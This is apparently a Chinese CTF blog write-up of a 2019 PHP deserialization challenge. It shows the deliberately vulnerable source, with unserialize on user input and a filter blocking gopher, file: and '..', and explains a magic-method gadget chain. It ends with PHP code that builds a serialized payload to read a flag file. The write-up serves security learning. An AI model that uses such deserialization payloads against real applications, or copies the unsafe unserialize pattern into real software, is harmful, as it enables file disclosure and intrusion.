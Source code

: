 ```yaml
---
title: 2019京津冀大学生安全挑战赛 php反序列化小题
date: 2019-09-20 00:00:00
categories:
- CTF/Web
tags: 反序列化 
---
```


## 题目

非常非常简单一道小题，手快抢了一血

```php
<?php
error_reporting(1);
class Read {
    private $var;
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}


class Show
{
    public $source;
    public $str;
    public function __construct($file='index.php')
    {
        $this->source = $file;
        echo $this->source.'解析开始'."<br>";
    }
   
    public function __toString()
    {
        $this->str['str']->source;
    }

    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }

    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params = array();
    }

    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

unserialize($_GET['a']);
?>
```

## 解法

根据Show类中过滤的内容猜测flag在fllllllaaaaaag.php中，访问了一下果然有，所有读到这个文件的源码即可。

首先，Show类和Read类可以读文件，Show有过滤先看Read：

- file_get函数可以读文件
- __invoke函数中调用了file_get函数
- __invoke魔术方法会在当这个对象被当做函数调用的时候会执行

然后看Test类：

- Test类的__get方法会去把一个变量当做函数去调用
- __get方法会在访问类中一个不存在的成员时被调用

最后看Show类：

- __toString方法中回去访问一个source成员
- __toString方法会在对象被当做字符串的时候被调用
- __wakeup方法中会检查对象中source的恶意字符
- __wakeup方法会在对象反序列后调用

所以解法很明显了：

- 直接给Read类的私有成员var赋值为"fllllllaaaaaag.php"
- new一个Read类对象a
- new一个Test类对象b，让b的params成员为a
- new一个Show类对象c，让c的str成员时一个Array，其中有一个键为'str'的对应值是b
- new一个Show类对象d，让d的source是c
- 序列化对象d即为payload

```php
<?php
class Read {
    private $var="fllllllaaaaaag.php";
}

class Show
{
    public $source;
    public $str;
}

class Test
{
    public $params;
}

$a = new Read;
$b = new Test;
$b->params=$a;
$c = new Show;
$c->str=array('str'=>$b);
$d = new Show;
$d->source=$c;
$payload = serialize($d);
echo base64_encode($payload)
?>
```